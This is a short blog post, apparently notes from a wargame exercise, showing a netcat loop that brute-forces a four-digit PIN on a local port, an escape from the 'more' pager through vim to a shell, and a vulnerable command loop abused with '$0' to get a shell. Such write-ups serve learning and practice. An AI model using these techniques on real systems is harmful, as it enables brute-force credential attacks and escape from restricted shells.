 ```yaml
---
layout: post
title: "hack the planet"
---
```


## {{ page.title }}

###### {{ page.date | date_to_string }}

Try n credential attemps in single `nc` connections:

    for i in $(seq -s " " -f %04g 0 10000);do echo password attempt $i; done | nc localhost 30002

Escape `more` pager:

 * resize terminal window until `more` pauses due to non sufficient space to show text #tested in git4win/powershell
 * press 'v' to launch a vim readonly instance
 * escape `vim`:


    :set shell=/bin/bash
    :shell

Abuse `sh|bash` extrapolations, C sample:

    while(true) {
      print(">> ");
      cmd = makeUppercase(readInput());
      print(execute("sh", "-c", cmd)); #security issue here
    } #execute launches 'sh -c cmd' which on this case init the variable $0 to the name of the program 'sh'

Therefore if we type `$0`, it would execute `sh -c sh`, giving away a shell!

    $0
    # bash #now we move to a more confortable shell

Happy hacking! &#128522;
